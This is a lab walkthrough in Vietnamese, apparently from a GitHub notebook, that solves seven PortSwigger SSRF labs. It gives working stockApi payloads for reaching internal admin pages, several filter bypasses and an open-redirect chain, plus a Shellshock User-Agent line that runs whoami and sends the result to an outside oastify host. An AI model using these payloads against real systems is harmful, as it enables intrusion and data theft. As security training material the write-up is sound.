 # 1. Basic SSRF against the local server
Truy cập /admin, ta nhận được thông báo: "Admin interface only available if logged in as an administrator, or if requested from loopback".

Khi sử dụng chức năng checkStock, request `POST /product/stock` với parameter `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1`. Như vậy ta sẽ thử thay đổi stockApi để access trang admin với tư cách localhost.

Thay đổi tham số `stockApi=http://localhost/admin`, kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205523955-5692177a-7acd-42ba-ac37-2f98bbff4ebb.png)

Thay đổi `stockApi=http://localhost/admin/delete?username=carlos` để giải bài lab.

# 2. Basic SSRF against another back-end system
Đưa request `POST /product/stock` vào Intruder với payload: `stockApi=http%3A%2F%2F192.168.0.0%3A8080`, thực hiện bruteforce chữ số cuối trong IP address với phạm vi từ 0 đến 255. Ta thấy chỉ với IP 192.168.0.151 thì hiển thị mã lỗi 404:

![image](https://user-images.githubusercontent.com/103978452/205553868-d23ea3bc-56bf-4d80-b9b9-1a4c891116c7.png)

Thay đổi tham số `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin`, ta truy cập trang admin thành công. Tiếp tục thay đổi thành `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin%2Fdelete?username=carlos` để xóa user carlos.
![image](https://user-images.githubusercontent.com/103978452/205554210-25fe920a-1573-4b04-93c7-10a8a9521c06.png)

# 3. SSRF with blacklist-based input filter
Thay đổi `stockApi=http://localhost` thì thấy thông báo lỗi "External stock check blocked for security reasons"

Thay đổi thành `stockApi=http://127.1`, kết quả thành công. Tuy nhiên khi truy cập admin `stockApi=http://127.1/admin` thì lại hiển thị lỗi. Như vậy có khả năng server đã chặn từ khóa "admin".

Ta thử thay đổi `stockApi=http://127.1/aDmin`, kết quả truy cập trang admin thành công. Sau đó lại đổi thành `stockApi=http://127.1/aDmin/delete?username=carlos`, kết quả user carlos bị xóa.

![image](https://user-images.githubusercontent.com/103978452/205544461-b7b85229-b774-4cea-8c2f-f2eaeff2db71.png)

# 4. SSRF with filter bypass via open redirection vulnerability
Thử với tham số `stockApi=http%3A%2F%2F192.168.0.12%3A8080%2Fadmin`, kết quả không thành công. Như vậy không thể sử dụng chức năng stock check để truy cập một URL trực tiếp như vậy.

Thử thay đổi tham số `stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D3%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin`, ta thấy thành công và kết quả trả về là trang admin.

Để xóa user carlos, ta thay đổi tham số stockApi thành `stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D3%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos`. Kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205566041-5c14d2f9-1c00-4743-86d5-7e45b055542b.png)

# 5. Blind SSRF with out-of-band detection
Trong request `GET /product?productId=2`, ta thay đổi header Refererer trỏ đến địa chỉ của Burp Collaborator server (`Referer: https://c9moh0mqbmk53klvhwgtfmzsmjs9gy.oastify.com`). Resend request, ta thấy trong Burp Collaborator client nhận được các request gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/205568329-61e71132-5286-4bec-a560-855a51002781.png)

# 6. SSRF with whitelist-based input filter
Ta sẽ thay đổi biến stockApi trong request `POST /product/stock` để tìm cách bypass và exploit ssrf.

Thử với URL "http://hello@stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1", kết quả trả về domain hợp lệ.

Thử với URL "http://hello%2523@stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1" (double url encode kí tự "#" thành "%2523"), kết quả trả về lỗi 505 Internal Server Error. Như vậy có thể server đã truy cập đến domain là "hello".

Thử với URL "http://localhost:80%2523@stock.weliketoshop.net:8080/admin", kết quả trả về trang admin thành công.

Ta thay URL thành "http://localhost:80%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos" để giải bài lab.

![image](https://user-images.githubusercontent.com/103978452/207007466-a7353e87-fee1-465c-9a60-d4543510d4af.png)

# 7. Blind SSRF with Shellshock exploitation
Khi thay đổi Referrer trong request `/product?productId=1` thành địa chỉ của Burp Collaborator, nhận thấy request được gửi đến. Như vậy server sẽ truy cập địa chỉ có trong header Referrer.

Ta cấu hình kịch bản tấn công như sau:
1) Thay đổi Referrer thành 192.168.0.X (là server có lỗ hổng ShellShock)
2) Cấu hình tấn công ShellShock để từ máy chủ 192.168.0.X sẽ gửi request đến Burp Collaborator mà ta kiểm soát. Trong request có chứa thông tin ta cần lấy.

Ta sẽ thử thực hiện tấn công Shell shock qua header User-Agent. Đưa request vào Intruder rồi thay đổi như sau:

![image](https://user-images.githubusercontent.com/103978452/206390976-3224b8ca-3593-4d11-8302-76ff046a8256.png)
Chú ý đến hai header là Referrer và User-Agent. Sau khi thực hiện bruteforce 192.168.0.X với X trong phạm vi từ 0-256, vào Burp Collaborator Client kiểm tra, ta thấy có request được gửi đến.

![image](https://user-images.githubusercontent.com/103978452/206391184-c8b923df-ed65-4332-948e-86f59ae5d59a.png)

Như vậy ta có thể exploit Shell Shock vulnerability theo cách này. Thay đổi header User-Agent như sau:
```
User-Agent: () { :; }; /bin/ping $(whoami).6u1yt7352rpz2mzz9d2l02wi89ez2o.oastify.com
```
Thực hiện bruteforce như trước đó, rồi kiểm tra trong Burp Collaborator Client thì thấy có request chứa thông tin lệnh `whoami` được gửi đến

![image](https://user-images.githubusercontent.com/103978452/206391484-67f30bd2-16c2-4ac8-ab41-cb859850dfe2.png)

Dùng thông tin có được để submit, bài lab đã được giải.
